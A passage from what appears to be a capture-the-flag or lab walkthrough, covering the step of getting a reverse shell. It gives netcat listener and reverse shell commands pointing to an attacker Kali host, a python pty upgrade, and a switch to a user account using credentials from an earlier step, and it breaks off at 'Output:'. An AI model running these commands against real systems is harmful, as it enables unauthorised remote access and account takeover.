

4.3 Reverse shell
I can run commands on the back-end server. So, let's get a “reverse shell” to my “Kali Linux” machine using “nc” utility.
1. On your Kali Machine open a “Netcat listener”
$nc -lnvp 4444
2. On the victim machine type:
>nc 192.168.12.10 4444 -e /bin/bash
3. On your Kali Machine spawn a pty shell using python.
$python -c 'import pty;pty.spawn("/bin/bash")'
$id
$id
4. Switch user (Use the credentials from the previous step).
www-data@debian:/var/www/html$su clapton
Output:
